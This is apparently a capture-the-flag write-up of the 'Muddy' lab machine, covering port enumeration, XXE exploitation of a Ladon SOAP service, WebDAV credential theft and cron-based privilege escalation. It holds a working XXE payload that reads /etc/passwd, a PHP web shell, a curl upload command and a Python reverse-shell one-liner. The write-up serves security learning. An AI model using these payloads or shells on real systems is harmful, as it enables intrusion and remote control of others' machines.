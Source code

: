 # Muddy

Machine: [Muddy](https://portal.offensive-security.com/labs/practice)\
Difficulty: Intermediate



## Enumeration
What ports are open on this machine?
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp   open  smtp    Exim smtpd
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
8888/tcp open  http    WSGIServer 0.1 (Python 2.7.16)
```

### SSH port 22
The ssh version does not appear to have any vulnerabilities that would be of use to me. However, if I find credentials then I may be able to use them to ssh into the machine.

### SMTP port 25
Initially, I just ran the smtp nmap scripts and received the below output. The nmap scripts did not appear to return any information that would hint that the smtp service is vulnerable.
```
nmap --script smtp-* 192.168.211.161    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-09 16:30 EST
Nmap scan report for muddy.ugc (192.168.211.161)
Host is up (0.075s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
| smtp-commands: muddy Hello muddy.ugc [192.168.49.211], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
| smtp-enum-users: 
|_  Couldn't find any accounts
|_smtp-open-relay: SMTP RSET: failed to receive data: connection closed
| smtp-vuln-cve2010-4344: 
|   Exim version: 4.92
|   Exim heap overflow vulnerability (CVE-2010-4344):
|     Exim (CVE-2010-4344): NOT VULNERABLE
|   Exim privileges escalation vulnerability (CVE-2010-4345):
|     Exim (CVE-2010-4345): NOT VULNERABLE
|_  To confirm and exploit the vulnerabilities, run with --script-args='smtp-vuln-cve2010-4344.exploit'
80/tcp   open  http
111/tcp  open  rpcbind
8888/tcp open  sun-answerbook
```

### HTTP port 80

This version of apache does have a couple of reported vulnerabilities reported which are available here: https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-613554/Apache-Http-Server-2.4.38.html.

Since this is a webserver, I will go ahead and perform additional enumeration to discover possible hidden directories or files that we can access.

![Results!](screenshots/1.png)

I did not find anything on my first scan. I did learn that this is a WordPress application so I scanned it appropriately but I did not find any relevant information. Additionally, I ran a nikto vulnerability scan.

### RPC port 111
N/A

### HTTP port 8888

![Results!](screenshots/2.png)

After exploring the page, I discovered that the service running on this port uses a python library in the application called Ladon. Ladon is a framework for exposing python methods to several internet service protocols. I could not find a specific version of Ladon, but after some research, I did find that the Ladon framework is vulnerable to XXE. I found this article online that explains the vulnerability in good detail. [Link to vulnerability article](https://www.exploit-db.com/exploits/43113).


## Exploitation

After doing research I was able to create an XML request based on the XML definition on the muddy service, and retrieve a list of users with '/etc/passwd'. Below is a picture of the XML definition I was able to view along with the command used.

![Results!](screenshots/3.png)
```
└─$ $ curl -s -X $'POST' \              
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -

```

![Results!](screenshots/4.png)

I tried to change the command being used, /etc/passwd, to see if I can get other information to be returned but I was not able to retrieve anything. I did find that there is a user named, ian, so I will see what I can do with that. Since we do have a name then we might be able to brute force the user's password and ssh via that user. I let Hydra Run for a bit but I was not able to get any password hits for the user.


At this point I was stuck and I had to go online for a hint. I  found out that I missed something important during the web directory enumeration. There is a directory, /webdav, on 'muddy.ugc' but I guess I accidentally skipped over this. I did have to research what the /webdav is and I found out that it runs on a web server and it acts as a fileserver...it stores files. Now when I tried to access the /webdav directory, muddy.ugc/webdav, I am prompted to enter credentials. Basic credentials did not work but I found out that there is a file on /webdav that contains password information. We can view this file by exploiting the same vulnerability that allowed the list of users to be returned via the XXE vulnerability. 

![Results!](screenshots/5.png)

Creds:
administrant sleepless  

To get the text value of the hash I used john the ripper.

![Results!](screenshots/6.png)


Since /webdav acts as a fileserver, I can try to upload a file, in this case a shell. A PHP shell will do the trick but sometimes other file types might be needed for the shell to execute and work properly. 


The php shell that ended up working is below. I saved this in a .php and upload the shell to the /webdav directory using the below command. Now that I can pass values via the parameter, I can set up a listener and get a reverse shell.
```
<?php system($_REQUEST["cmd"]); ?>  
```

```
curl -XPUT -d @shell.php http://muddy.ugc/webdav/shell.php -u 'administrant:sleepless'
```

![Results!](screenshots/7.png)

Parameter Value:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


## Flags

### Local/User 
![Results!](screenshots/8.png)

### Root

```
SHELL=/bin/sh
PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    netstat -tlpn > /root/status && service apache2 status >> /root/status && service mysql stat
```

![Results!](screenshots/10.png)

## Overview
In this machine, I attacked a Linux machine that was vulnerable to an XXE attack and the reason it was vulnerable is because of an outdated library that is being used. An XXE vulnerability is ___________________. So now that we know we can update the entity value to a file path and have it potentially display the contents, note not all files work, we then used this same knowledge to access the /webdav file that contains the password information to log in to /webdav. Webdav acts as a file server and then I uploaded a shell that allowed me to get a reverse shell. Lastly, to escalate privileges I used linpeas to perform enumeration and found a cron job running which allowed me to gain a root shell upon the execution of a file.